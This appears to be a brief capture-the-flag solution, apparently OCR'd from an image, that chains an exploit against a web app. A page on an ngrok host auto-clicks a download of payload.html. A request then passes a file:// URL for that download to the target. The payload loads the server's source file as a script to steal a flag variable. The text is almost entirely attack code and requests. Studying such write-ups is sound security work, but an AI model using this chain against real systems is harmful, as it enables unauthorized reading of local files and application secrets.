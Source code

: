 # First request get download.html with the following contents

```html
<a href="http://2717e4a146b8.ngrok.io/payload.html" download id="x"></a>
<script>
x.click();
</script>
```

# Second request to get downloaded file

```http
GET /?url=file:///home/user/Downloads/payload.html
```

# payload.html

```html
<script>
  // some script to stop errors and grab the flag var
</script>
<script src="/home/user/app/server.js"></script>
```